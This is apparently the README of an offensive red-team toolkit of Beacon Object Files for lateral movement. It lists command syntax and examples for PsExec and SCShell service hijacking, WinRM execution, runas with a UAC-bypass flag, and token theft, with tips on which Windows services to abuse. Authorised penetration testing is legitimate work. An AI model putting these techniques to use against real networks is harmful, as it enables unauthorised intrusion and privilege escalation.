




# LateralMovement-BOF

BOFs kit for lateral movements



## jump psexec

Attempt to spawn a session on a remote target via PsExec

```
jump psexec [-b binary_name] [-s share] [-p svc_path] [-n svc_name] [-d svc_description] <target> <binary>
```


## jump scshell

Jumping with SCShell requires deploying a service binary to the target system, similar to psexec. It will no longer be fileless like invoke.

```
jump scshell <target> <svc_binary_path> [-n service_name] [-b binary_name] [-s share] [-p path]

#example
jump scshell 10.0.2.10 /tmp/agent_svc.exe -n defragsvc -b update.exe -s C$ -p C:\Windows
```

Common services that work well with SCShell:
- `defragsvc` - Disk Defragmentation Service
- `spooler` - Print Spooler
- `SensorService` - Server to manage sensors.
- `SessionEnv` - Remote Desktop Configuration
- `IKEEXT` - IKE and AuthIP IPsec Keying Modules

Choose services that:
- Are not critical to system operation
- Are not running (or can be stopped)
- Have sufficient privileges
- Are configured to start on-demand


## invoke winrm

Use WinRM to execute commands on other systems

```
invoke winrm <computer> <command>
```


## invoke scshell

Execute commands on remote systems by temporarily modifying a service.

```
invoke scshell <target> <service_name> <command>

#example
invoke scshell 10.0.2.10 defragsvc "cmd.exe /c powershell -c \"$r=whoami;$r > C:\Temp\whoami.txt\""
```

Common services that work well with SCShell:
- `defragsvc` - Disk Defragmentation Service
- `spooler` - Print Spooler
- `SensorService` - Server to manage sensors.
- `SessionEnv` - Remote Desktop Configuration
- `IKEEXT` - IKE and AuthIP IPsec Keying Modules

Choose services that:
- Are not critical to system operation
- Are not running (or can be stopped)
- Have sufficient privileges
- Are configured to start on-demand


## runas

Runas is a BOF to run specific processes with different permissions than the user's current logon provides using explicit credentials.

```Shell
runas <username> <password> <domain> <command> [-l logon_type] [-t timeout] [-o] [-b]
```

* `-o` - With output capture
* `-b` - Bypass UAC (use with admin credentials)


## token make

Creates an impersonated token from a given credentials

```
token make <username> <password> <domain> <type>
```



The **Make token** item will be added to the **Access** menu in the Sessions Table and Graph.





## token steal

Steal access token from a process

```
token steal <pid>
```

The **Steal token** item will be added to the context menu in the Process Browser.




## Credits
* SCShell - https://github.com/Mr-Un1k0d3r/SCShell